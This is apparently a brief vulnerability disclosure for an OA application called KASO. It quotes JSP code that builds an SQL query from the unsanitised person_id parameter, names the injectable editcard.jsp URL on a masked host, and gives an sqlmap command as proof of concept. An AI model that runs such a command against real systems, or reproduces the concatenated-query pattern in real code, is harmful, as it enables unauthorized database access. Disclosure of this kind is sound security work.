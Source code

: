# KASO-SQL


Impact Code

    <%}
    rs.close();
      sql = "select a.classid,a.name,b.popedom from oa_cardclass a,oa_card_popedom b where a.classid=b.classid and b.person_id='"+person_id+"'";  
      rs=DBmenu.executeQuery(sql); 
    %>


Injection：person_id

Injection url: http://xx.xx.xx.xx:8081/cardcase/editcard.jsp?person_id=2&id=1&classid=1


poc:
python .\sqlmap.py -u "http://xx.xx.xx.xx:8081/cardcase/editcard.jsp?person_id=2&id=1&classid=1" --random-agent --dbms=mssql


![sql](https://github.com/user-attachments/assets/7fcdcd69-5cfb-4088-baf7-7172e638fa53)


